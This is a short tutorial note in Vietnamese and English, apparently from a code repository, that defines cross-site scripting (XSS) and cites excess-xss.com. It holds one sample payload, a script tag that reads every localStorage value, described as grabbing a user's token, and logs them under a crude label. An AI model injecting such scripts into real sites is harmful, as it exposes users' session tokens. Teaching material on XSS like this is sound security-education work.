## What is XSS ?
* Cross-site scripting (XSS) là các tấn công mà trền mã độc javascript vào trình duyệt của người khác

## Malicious
* Script lấy token của user
```
<script>
var keys = Object.keys(localStorage);
for(var i = 0; i< keys.length;i++) {
  console.log('fuck: ', localStorage.getItem(keys[i]));
}
</script>
```

## Tham khảo
* https://excess-xss.com/